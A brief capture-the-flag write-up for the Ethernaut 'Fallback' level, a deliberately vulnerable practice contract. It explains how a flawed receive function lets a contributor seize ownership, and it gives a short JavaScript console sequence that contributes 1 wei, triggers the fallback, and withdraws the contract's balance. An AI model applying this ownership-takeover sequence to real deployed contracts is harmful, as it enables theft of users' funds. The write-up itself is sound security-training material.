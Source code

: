 # [1. Fallback](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

The receive function is flawed, we just need to send some value via contribute and then via receive to change the owner. The contribute requires less than 0.001 ether, and receive expects greater than 0. Here is the plan:

1. We will contribute 1 Wei.
2. We will then send money to the contract address via a fallback function. This can be done by calling a non-existent function in the contract with some ether value.
3. We are now the owner!
4. To deal the final blow, we call the `withdraw` function. By only spending 2 Wei, we got the owners balance :)

```js
// (1) Contribute
await contract.contribute({value: "1"})

// (2) Fallback
await contract.sendTransaction({
  from: player, 
  value: "1", 
  data: undefined // for the fallback
})

// (3) Confirm ownership
await contract.owner()

// (4) Withdraw
await contract.withdraw()
```
